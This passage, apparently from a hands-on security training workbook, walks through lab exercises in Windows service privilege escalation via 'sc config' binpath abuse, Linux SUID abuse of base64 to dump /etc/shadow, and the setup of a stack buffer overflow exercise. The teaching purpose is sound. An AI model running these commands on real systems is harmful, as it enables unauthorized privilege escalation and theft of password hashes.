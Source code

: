 > ```
> Confirm the tester user IS NOT present in the Administrators group.
> ```powershell
> net localgroup administrators
> ```
> #### Step 3 - Exploit Service
> As normal low privileged user, launch a command prompt (not as admin). Modify the vulnerable service to add the `tester` user to the administrators group.
> ``` powershell
> sc config vulnerable binpath= "net localgroup administrators tester /add"
> ```
> Start the vulnerable service that will run the payload. Observe that the service “FAILED”.
> ``` powershell
> sc start vulnerable
> ```
> Check administrators again and observe that the `tester` user now has privileges escalated!  Even though the service start command failed, it still ran in an elevated context and executed our code.
> ``` powershell
> net localgroup administrators
> ```
> #### Step 4 - Tear Down the Vulnerable Service
> Open a command prompt as administrator and delete the malicious service.
> ``` powershell
> sc delete vulnerable
> ```


> [!exercise] Exercise 6.4 - Linux SUID Privilege Escalation
> In this task, you will create a vulnerable SUID binary and then exploit it to escalate privileges as the root user using the Ubuntu VM in Bridge Adapter network mode.
> #### Step 1 - Create Vulnerable SUID
> Install a `base64` binary with the root SUID bit set in the current directory. Then list the file and observe that it is owned by root and is world executable. This means that any user on the system can run the binary as the root user.  Do not miss the period at the end of the command.
> ``` bash
> sudo install -m =xs $(which base64) .
> ```
> #### Step 2 - Abuse SUID
> As your normal user, try dumping the contents of the shadow file that should only be accessible by root. Observe that permission is denied.
> ``` bash
> cat /etc/shadow
> ```
> Abuse the base64 SUID binary to display the contents of the shadow file. The “./” preceding the `base64` binary runs the vulnerable binary located in the current directory. The full command base64 encodes the shadow file and pipes the results to `base64` with the decode flag, which displays the full contents of the privileged file!
> ``` bash
> ./base64 "/etc/shadow" | base64 --decode
> ```


> [!exercise] Exercise 6.5 - Stack Smashing the Hidden Function
> In this task, you will exploit a stack-based buffer overflow vulnerable C program using your Kali VM in Bridge Adapter network mode.  You will install the needed tools, build the vulnerable application, discover the buffer overflow, then build an exploit that will execute the hidden function.
> #### Step 1 - Install GDB
> GNU debugger (GDB) is used to debug in-memory applications and is very useful for finding and exploiting buffer overflows.  
> ```bash
> sudo apt update -y
> sudo apt install gdb -y
> ```
> #### Step 2 - Install GEF
> Next, install GEF after GDB is installed. The GEF extension for GDB offers additional utilities.

[^2]: How to View and Modify Service Permissions in Windows; Winhelponline; May 7, 2021; https://www.winhelponline.com/blog/view-edit-service-permissions-windows/
[^3]: Linux Privilege Escalation; Hacktricks Carlos Polop; Feb 25, 2024; https://book.hacktricks.xyz/linux-hardening/privilege-escalation
[^4]: base64; GTFOBins; Feb 25, 2024; https://gtfobins.github.io/gtfobins/base64/